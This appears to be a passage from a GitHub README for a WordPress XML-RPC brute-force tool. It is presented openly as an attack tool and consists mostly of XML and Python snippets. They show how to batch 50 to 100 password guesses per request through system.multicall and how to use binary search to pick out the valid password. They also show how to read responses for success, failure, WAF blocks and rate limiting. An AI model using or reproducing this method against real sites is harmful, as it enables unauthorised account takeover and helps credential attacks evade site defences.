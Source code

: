 ### ⚡ Optimization Techniques

#### 1️⃣ **Batch Processing (system.multicall)**

Traditional brute force:
```xml
<!-- One password per request -->
<methodName>wp.getUsersBlogs</methodName>
<params>
  <param><string>admin</string></param>
  <param><string>password1</string></param>
</params>
```

**caosdev-xmlrpc-brute:**
```xml
<!-- 50-100 passwords per request -->
<methodName>system.multicall</methodName>
<params>
  <param>
    <array>
      <!-- Call 1: password1 -->
      <!-- Call 2: password2 -->
      <!-- ... -->
      <!-- Call 50: password50 -->
    </array>
  </param>
</params>
```

#### 2️⃣ **Binary Search Discovery**

When a batch contains a valid password:
```python
# Traditional: Test each password (O(n))
for password in batch:
    if test(password): return password

# caosdev: Binary search (O(log n))
def find_password(batch):
    if len(batch) == 1: return batch[0]
    mid = len(batch) // 2
    if test(batch[:mid]):
        return find_password(batch[:mid])
    else:
        return find_password(batch[mid:])
```

#### 3️⃣ **Smart Detection**

```python
# Response Analysis
if '<params>' in response and '<name>blogid</name>' in response:
    return SUCCESS  # Valid credentials
elif '<fault>' in response:
    return FAILURE  # Invalid credentials
elif status_code == 403:
    return WAF_DETECTED
elif status_code == 429:
    return RATE_LIMITED
```

---